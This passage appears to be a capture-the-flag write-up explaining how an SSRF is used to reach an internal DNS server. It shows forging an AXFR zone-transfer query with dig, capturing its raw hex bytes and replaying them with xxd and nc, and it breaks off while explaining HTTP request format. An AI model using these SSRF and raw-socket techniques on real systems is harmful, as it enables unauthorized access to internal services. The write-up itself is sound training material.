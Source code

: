 So, from the ssrf, we have to: 
- find the TCP packet to send
- find a way to arbitrarily send raw to the tcp socket.

## Creating the DNS query.

The simplest way to forge this query is to use the ``dig`` tool (*bind-tools*) accross a docker in the infra network to query the DNS server.  
To retrieve the raw bytes, I specify my TCP listener and port 2222 and make the query:

```bash
dig @host.docker.internal -p 2222 fcsc2024.fr AXFR
```

I received the 3 TCP requests below: (hexadecimal)
- 00346bb0002000010000000000010866637363323032340266720000fc000100002904d000000000000c000a0008f7bdbcaef5f90ee6
- 00341199002000010000000000010866637363323032340266720000fc000100002904d000000000000c000a0008f7bdbcaef5f90ee6

- 0034e4f6002000010000000000010866637363323032340266720000fc000100002904d000000000000c000a0008f7bdbcaef5f90ee6

You can check that they work as expected:
```bash
$ echo <hex> | xxd -r -p | nc pong-internal-dns 53
```
*Output*:
```
���fcsc2024frfrontend�

pong�

fake_domain�
```

Bingo! Our DNS request works, now we just need to send it to ``pong-internal-dns`` on port 53.

## Sends arbitrary raw bytes to DNS.

The format of an HTTP request is as follows: 

```
<method> <path> HTTP/<version>\r
<header_key1>: <header_value1>\r
...
<header_keyX>: <header_valueX>\r
\r

```

Exemple:
```
GET / HTTP/1.1\r
Connection: Close\r
Accept: */*\r
Host: localhost:8000\r
\r
```
